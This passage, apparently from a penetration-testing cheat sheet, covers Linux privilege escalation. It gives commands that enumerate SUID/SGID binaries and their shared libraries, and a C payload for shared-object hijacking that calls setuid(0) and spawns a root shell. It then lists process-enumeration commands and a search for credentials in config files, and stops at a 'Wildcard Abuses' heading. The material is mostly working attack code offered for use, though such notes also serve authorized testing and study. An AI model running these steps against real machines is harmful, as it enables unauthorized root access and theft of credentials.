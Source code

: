 If a `.so` file is missing we can hijack execution, by provide a malicious shared library file of the same name in the `LD_LIBRARY_PATH`.

#### Shared Object Hijacking

Find a SETUID binary
```bash
# -4000 for suid and -2000 for sgid
find / -type f -perm -04000 -exec ls -la {} \; 2>/dev/null
find / -type f -perm -02000 -exec ls -la {} \;2>/dev/null
# for glibc version - https://dev.to/bitecode/how-to-get-glibc-version-c-lang-26he
ldd --version ldd 
# Print Shared Object Libraries 
ldd $setuidBinary
# Are their non-stardand, custom, writable directory or file permissions?
# Get the library runpath with `readelf`
readelf -d $setuidBinary
# Before hijacking we need to know the name of the function used in any opf the types of Shared Object libraries on the box used
# Test by copying one till we enumerate the function name
cp $libraryOfMany.so /$runPathDirectory
# Output we are concerned with is `undefined symbol: functionNameHere`
```
Replace `functionNameHere` with the function name enumerated earlier
```c
#include<stdio.h>
#include<stdlib.h>

void functionNameHere() {
    setuid(0);
    system("/bin/sh -p");
} 
```
## Processes

What processes are running as root?
```bash
ps 1                    # Systemd or SysV init
ps aux                  # All processes
ps au                   # Current processes
ps aux | grep root      # find weird processes run by root change for $user
ps ajxf                 # Process tree
# proc filesystem /proc || /procfs
find /procfs -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"
find /proc -name cmdline -exec cat {} \; 2>/dev/null | tr " " "\n"
# credentials in config via 
find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null
```

## Shell Related

#### Wildcard Abuses
